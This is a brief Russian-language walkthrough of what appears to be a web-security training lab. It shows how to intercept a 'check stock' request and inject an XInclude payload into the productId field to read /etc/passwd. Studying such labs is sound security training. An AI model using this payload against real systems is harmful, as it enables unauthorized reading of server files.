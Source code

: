 1) Перехватываем запрос от нажатия на кнопку check stock
2) Отправляем запрос в repeater. Отменяем перехват
3) В "ProductId" вставляем <foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
4) Запуск кода
5) Лаба выполнена
